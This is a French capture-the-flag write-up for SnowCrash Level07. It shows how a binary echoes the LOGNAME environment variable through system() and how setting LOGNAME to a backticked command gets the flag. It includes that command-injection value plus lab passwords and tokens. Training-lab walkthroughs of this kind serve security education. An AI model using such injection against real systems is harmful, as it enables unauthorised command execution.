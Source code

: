 # Level07

Une fois connecté avec le username:motdepasse level07:wiok45aaoguiboiki2tuin6ub (obtenu dans le flag précédent), nous arrivons sur le home de l'utilisateur level07.  
Nous pouvons voir qu'un executable du nom de "level07" est présent.
En l'exécutant nous avons :
```sh
level07@SnowCrash:~$ ./level07
level07
```
En utilisant `strings level07` nous pouvons trouver des lignes interessantes : 
```sh
getenv
system
LOGNAME
/bin/echo %s
```
En allant faire un tour du coté des variables d'environement nous avons :
```
LOGNAME=level07
```
Essayons de changer cette variable et de relancer l'executabe : 
```
level07@SnowCrash:~$ export LOGNAME=Drakauf
level07@SnowCrash:~$ ./level07
Drakauf
```
Nous pouvons constater que l'exécutable affiche la variable d'environement `LOGNAME`.
Nous allons essayer dabtenir le flag.
```sh
level07@SnowCrash:~$ export LOGNAME=\`/bin/getflag\`
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
Nous avons obtenu le flag !
